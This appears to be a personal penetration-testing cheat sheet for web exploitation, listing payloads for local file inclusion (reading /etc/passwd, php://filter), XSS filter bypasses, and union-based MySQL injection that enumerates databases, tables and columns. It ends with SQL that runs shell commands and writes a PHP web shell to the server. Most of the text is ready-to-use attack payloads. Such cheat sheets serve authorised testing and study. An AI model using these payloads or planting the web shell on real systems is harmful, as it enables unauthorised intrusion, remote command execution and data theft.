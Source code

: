 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)

----

## Web
Techniques and tools I use for web exploitations.

### LFI 
###### LFI = Local File Inclusion.  

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### XSS
Verify XSS:  
```javascript
<script>alert('XSS')</script>

//OR
"><script>alert('XSS')</script>">

//OR
<script>alert(String.fromCharCode(88,83,83))</script>
```

Bypass filter of tag script:   
```javascript
" onload="alert(String.fromCharCode(88,83,83))

//OR
" onload="alert('XSS')
```

**nope** is not a valid image source, so this cause an error an triggers the `onerror`.
```javascript
<img src='nope' onerror=alert("XSS")>
```

Useful links:  
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


### SQL Injection
###### All examples are with MySQL syntax!
Verify SQL injection: add a simple quote`'`. 
```bash
# Examples
http://target.com/path/?id=5'
```

Sorting columns to find maximum column:
```bash
http://target.com/path/?id=-1 order by 1
http://target.com/path/?id=-1 order by 2
http://target.com/path/?id=-1 order by 3
http://target.com/path/?id=-1 order by 4
# ...
# Try until it stops returing errors, now we have the column count
```

Verify injectable column:  
```bash
http://target.com/path/?id=-1 union select 1, 2, 3, 4
# Select count is depending on the table, maybe try the previous example
# One of the columns will be printed with the respective number
```

Discover various informations:  
```bash
# Discover version
http://target.com/path/?id=-1 union select 1, 2, 3, version()

# Discover database name
http://target.com/path/?id=-1 union select 1, 2, 3, database()

# Discover logged in usernames
http://target.com/path/?id=-1 union select 1, 2, 3, current_user()

# Discover databases
http://target.com/path/?id=-1 union select 1, 2, 3, schema_name from information_schema.schemata

# Discover table names of database
http://target.com/path/?id=-1 union select 1, 2, 3, table_name from information_schema.tables where table_schema="database_name"

# Discover columns of database
http://target.com/path/?id=-1 union select 1, 2, 3, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

Execute shell commands:
```sql
# Example usage
SELECT trim(trailing char(0x00) from exec_cmd("echo 'Hello World'"));

# Decode base64 string and write to file
SELECT trim(trailing char(0x00) from exec_cmd("echo 'SGVsbG8gV29ybGQK' | base64 -d >> /tmp/test.txt"));
```

Create a web shell:
```sql
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/shell.php"
```
